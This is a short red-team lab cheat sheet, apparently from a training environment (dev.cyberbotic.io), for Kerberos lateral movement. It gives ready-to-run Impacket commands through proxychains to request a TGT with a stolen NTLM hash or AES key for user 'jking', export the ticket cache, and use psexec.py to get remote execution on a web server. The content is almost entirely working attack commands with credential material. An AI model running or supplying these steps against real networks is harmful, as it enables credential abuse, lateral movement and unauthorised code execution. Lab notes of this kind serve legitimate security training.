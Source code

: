 # Ask for a TGT with the user's ntlm or aes hash

```bash
proxychains getTGT.py -dc-ip 10.10.122.10 -hashes :60188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
```

---

# Export the ticket

```bash
export KRB5CCNAME=jking.ccache
```

---

# Use the exported ticket

```bash
# dc.dev.cyberbotic.io -> 10.10.122.10
# web.dev.cyberbotic.io -> 10.10.122.30
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```
